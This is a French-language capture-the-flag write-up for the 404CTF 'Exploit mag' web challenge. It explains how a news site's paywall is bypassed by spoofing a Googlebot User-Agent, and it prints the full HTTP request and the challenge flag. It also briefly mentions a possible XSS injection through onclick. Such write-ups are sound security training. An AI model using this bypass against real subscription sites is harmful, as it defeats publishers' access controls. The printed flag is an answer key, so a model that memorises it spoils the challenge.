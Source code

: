 # Exploit mag
## Enoncé
> Alors que la compétition bat son plein, votre entraîneur vient à votre rencontre :
>> Hey ! Je ne sais pas si tu as vu, mais il parait qu'un magazine en ligne a publié des trucs "intéressants" sur la compétition. C'est un ami à moi qui m'a envoyé le lien.
> En allant jeter un œil, rien ne semble différencier ce magazine d'un autre site sportif aux titres racoleurs... Mais l'un des articles attire votre attention. Ce serait bien de pouvoir y accéder, au moins pour savoir ce qu'ont appris les athlètes qui l'ont lu. Mais pas question de payer, il doit bien exister un autre moyen...

Auteur: **@Artamis**
 
Connexion: `https://exploit-mag.challenges.404ctf.fr`

## Analyse

On arrive sur un site de presse, où les articles sont disponibles entièrement uniquement au prix d'un abonnement.

Il y a deux liens qui pourraient nous intéresser: `https://exploit-mag.challenges.404ctf.fr/news/` et `https://exploit-mag.challenges.404ctf.fr/pricing/`.

Comme il n'y a pas création de compte, ou de cookies relié à notre connexion, il est intéressant de se demander comment le site effectue la vérification sur notre légitimité à voir ou non les articles. 

Il va peut être nous falloir implémenter un cookie à un moment ou à un autre.

### `/pricing`

<p align="center">
    <img src="../images/404CTFWeb3.png" alt="img1" style="width:40%;">
</p>

Le seul moyen d'accéder aux articles serait d'être premium, mais en observant le code source de la page, on apprend que le bouton "C'est parti !" n'effectue aucune autre action que de nous rediriger vers la page `/news`. Nous avons aucun indice sur ce potentiel cookie de légitimité.

### `/news`

En arrivant sur un article quelconque on tombe sur cette barrière de paiement:

<p align="center">
    <img src="../images/404CTFWeb4.png" alt="img1" style="width:40%;">
</p>

Seulement, lorsque l'on appuie sur le captcha résultat, rien ne se passe, il tourne en boucle.

Après analyse de son code source, les injections XSS sont possibles par la variable onclick, seulement elles ne mènent à rien.

Avec un peu plus d'observation on apprend par l'id d'un élément que ce genre de barrières s'appellent des paywalls.

Avec un peu de documentation sur internet, on apprend que certains sites laissent passer les bots crawlers de google pour obtenir un meilleur référencement, et il est possible d'usurper leur identité en utilisant leur User-Agent associé.

## Exploitation

L'article nous intéressant le plus est évidemment celui-ci `/dataleak-404-ctf`, mais nous aurions pu tous les faire;

On reproduit la requête d'obtention de l'article en changeant l'User-Agent par celui d'un Google Bot:
```http
GET /news/dataleak-404-ctf/ HTTP/1.1
Host: exploit-mag.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

Et on obtient directement l'article complet, et le flag 

Flag: **404CTF{p4yw4lL_bYpa55_1s_dAnG3r0us}**